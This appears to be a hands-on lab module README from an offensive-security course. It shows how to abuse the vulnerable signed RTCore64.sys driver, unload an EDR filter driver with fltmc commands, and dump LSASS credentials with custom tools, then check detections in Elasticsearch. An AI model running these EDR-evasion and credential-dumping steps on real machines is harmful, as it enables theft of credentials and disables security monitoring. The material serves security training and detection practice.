 # Bring Your Own Vulnerable Driver

The point of this module is to cover the concepts of leveraging drivers to access protected processes and bypass protections.

For more BYOD information or downloads this is a great resource:

https://www.loldrivers.io/

**RTCore64.sys** is the driver we will be abusing.

The driver in Micro-Star MSI Afterburner 4.6.2.15658 (aka RTCore64.sys and RTCore32.sys) allows any authenticated user to read and write to arbitrary memory, I/O ports, and MSRs. This can be exploited for privilege escalation, code execution under high privileges, and information disclosure. These signed drivers can also be used to bypass the Microsoft driver-signing policy to deploy malicious code.

Dumping lsass will be the name of the game. 


1. In the lab environment, open up the **Operator Desktop**, once loaded and the terminal pops up, change the permissions on the lab folder.
`sudo chown pslearner:pslearner -R /home/pslearner/lab`

2. Now change directory to that folder.
`cd /home/pslearner/lab`
3. Open VSCODE.
`code .`
5. Once open, accept any pop ups. Trusting the author etc.
6. In the top left, use the mouse to click "terminal" then "new terminal" to launch a bash terminal in the bottom pane.
7. In the terminal in the bottom plane, run python simple server to host the files.
8. Open the 2-custom-edr-evasion>1-Custom-BYOD folder on the left.
9. Click dump-that-lsass.cpp to open the file.
> **Discuss Signatures**
> - On Disk / In Memory
> - Demo dump-that-lsass execution.
11. Open the **Windows Target 2**
12. Use the search bar to search for "security" and open the "Windows Security" app.
13. Go to Virus & Threat Protection and click the "turn on" button.
14. Now open an Administrative command prompt by search for cmd.exe, right click the command prompt app and select run as administrator.
15. Change directory to the lab files for this module.
`cd c:\Users\Public\Desktop\LAB_FILES\2-custom-edr-evasion\1-Custom-BYOD`
16. Open task manager, click "more details". Sort using the column "name" with a click. Scroll down to find "Local Security Authority Process". Right click it and open properties. Note this is LSASS. Close the window.
17. Right click the LSASS process gain, and clikc "Create dump file".  Wait a moment and notice the alert.
18. Back in your Administrative CMD prompt. Copy dump-that-lsass.exe to the c drive.
`copy dump-that-lsass.exe c:\dump-that-lsass.exe`
**Discuss Privilege Error**
- system-that-lsass execution
- talk about pp/ppl lsa protection win11/2022
18. In the adminstrative command prompt run **system-that-lsass.exe**
`system-that-lsass.exe`
19. Open windows file explorer and navigate to "C:\Windows\Temp" and open launcher.log and lsass_dumper.log.
20. Open a powershell command prompt and check PPL.
`Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" | Select-Object RunAsPPL`
21. In the Administrative command prompt, use dir to identify the lsass_encoded.bin file.
22. Decode it with decode-that-lsass.exe.
`decode-that-lsass.exe`
22. Go back to the **Operator Desktop**
**discuss nikito**
- miniwritedump
- temp files
23. Time for EDR. Back on the **Windows Target 2** device. Install EDR and file beat monitor.
> [Setup Steps](../../0-setup/README.md)
24. With EDR installed, use the Administrative command prompt to re-run the system-that-lsass.exe program.
`system-that-lsass.exe`
25. Open elasticsearch with the link on the desktop. & Login. un: **elastic** pw: **alwaysbelearning**
26. In he top left go to discover.
27. In the top right change the time to the last 15 minutes. (Feel free to play around with this however you want.)
30. Use free text search to search for "lsass".
**discuss monitoring vs detection**
- don't always have to disable
31. Driver time. Back in the administrative command prompt. Copy the driver to the C:\Windows\Temp folder.
> make sure you are in the "C:\Users\Public\Desktop\LAB_FILES\2-custom-edr-evasion\1-Custom-BYOD"
`copy RTCore64.sys c:\Windows\Temp\RTCore64.sys`
32. Load the driver.
`driver_loader.exe`
33. Check logs in C:\Widnows\Temp\driver_loader.log
34. Check for loaded driver, open services and look for MyRTCore64.
**Discuss why it isn't there**
35. Query for the driver with SC in the command line.
`sc query MyRTCore64`
36. Check for more detail with driverquery.
`driverquery /v /fo table`
36. Unload the driver.
`sc stop MyRTCore64.sys`
**Did you see what I saw?**
37. Unload edrdrv.
`sc stop edrdrv`
**Discuss failure**
38. Run fltmc to detach and unload file filter drivers.
```
fltmc
fltmc instances -f edrdrv
fltmc detach edrdrv c:
fltmc detach edrdrv \Device\Mup
fltmc unload edrdrv
fltmc
```
39. Now Check SC Query.
`sc query edrdrv`
40. Stop edrdrv
`sc stop edrdrv`
41. In your administrative command prompt, run lsass_dumper.exe.
> full path C:\Users\Public\Desktop\LAB_FILES\2-custom-edr-evasion\1-Custom-BYOD
```
cd driver-dumper
lsass_dumper.exe
```
35. Check
36. Run lsass_dumper.exe
`lsass_dumper.exe`
37. Check logs in C:\Windows\Temp\lsass_dumper
**discuss failure**
- Check code for driver-dumper in Operator Desktop
- Talk about BYOD moving forward and whats needed.
39. Go check for your activity after disabling the edrdrv filter in elasticsearch.
> Some search terms.
```
system-that-lsass.exe
lsass_dumper.exe
lsass_encoded.bin
```
> Run more code and see what does and doesn't pop up. this is the end of this module.
**Discussion**

Small pause while we shift gears. Then heading to the custom edr evasion techniques. But keep in mind they are fun and experiemental.
[Custom API EDR Evastion](../2-Custom-API/README.md)

